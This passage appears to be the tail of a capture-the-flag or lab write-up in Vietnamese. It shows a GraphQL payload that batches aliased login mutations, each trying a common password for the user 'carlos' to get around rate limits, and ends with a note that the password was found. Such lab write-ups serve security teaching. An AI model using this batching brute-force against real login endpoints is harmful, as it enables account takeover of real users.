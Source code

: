 ```
    }


bruteforce94:login(input:{password: "mom", username: "carlos"}) {
        token
        success
    }


bruteforce95:login(input:{password: "monitor", username: "carlos"}) {
        token
        success
    }


bruteforce96:login(input:{password: "monitoring", username: "carlos"}) {
        token
        success
    }


bruteforce97:login(input:{password: "montana", username: "carlos"}) {
        token
        success
    }


bruteforce98:login(input:{password: "moon", username: "carlos"}) {
        token
        success
    }


bruteforce99:login(input:{password: "moscow", username: "carlos"}) {
        token
        success
    }

}

```

- Và tôi đã tìm dc mật khẩu vs bruteforce65 với mật khẩu: `11111111`
